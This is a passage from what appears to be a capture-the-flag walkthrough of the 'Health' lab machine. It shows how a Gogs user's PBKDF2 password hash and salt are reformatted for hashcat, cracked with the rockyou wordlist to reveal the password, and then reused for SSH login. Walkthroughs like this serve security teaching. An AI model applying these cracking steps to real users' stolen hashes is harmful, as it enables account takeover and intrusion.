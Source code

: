 
This includes:
- user: susanne
- email: admin@gogs.local
- hash: 66c074645545781f1064fb7fd1177453db8f0ca2ce58a9d81c04be2e6d3ba2a0d6c032f0fd4ef83f48d74349ec196f4efe37
- salt: sO3XIbeW14

### Crack Hash

Gogs uses a PBKDF2-HMAC-SHA256 hash, which is type 10900 on [Hashcat](https://hashcat.net/wiki/doku.php?id=example_hashes). The data needs to be converted from hex to base64:

```

oxdf@hacky$ echo "66c074645545781f1064fb7fd1177453db8f0ca2ce58a9d81c04be2e6d3ba2a0d6c032f0fd4ef83f48d74349ec196f4efe37" | xxd -r -p | base64 -w0
ZsB0ZFVFeB8QZPt/0Rd0U9uPDKLOWKnYHAS+Lm07oqDWwDLw/U74P0jXQ0nsGW9O/jc=
box/health-10.10.11.176]$ echo -n "sO3XIbeW14" | base64
c08zWEliZVcxNA==

```

I also need to know the number of rounds. ChatGPT tells me:

![image-20230106173945860](https://0xdfimages.gitlab.io/img/image-20230106173945860.png)

The resulting hash is:

```

sha256:10000:c08zWEliZVcxNA==:ZsB0ZFVFeB8QZPt/0Rd0U9uPDKLOWKnYHAS+Lm07oqDWwDLw/U74P0jXQ0nsGW9O/jc=

```

Passing that to `hashcat` cracks it with `rockyout.txt` in a less than a minute:

```

$ hashcat susanne.hash /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting in autodetect mode
...[snip]...
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

10900 | PBKDF2-HMAC-SHA256 | Generic KDF
...[snip]...
sha256:10000:c08zWEliZVcxNA==:ZsB0ZFVFeB8QZPt/0Rd0U9uPDKLOWKnYHAS+Lm07oqDWwDLw/U74P0jXQ0nsGW9O/jc=:february15

```

### SSH

With susanne’s username and password, I might as well try SSH, and it works:
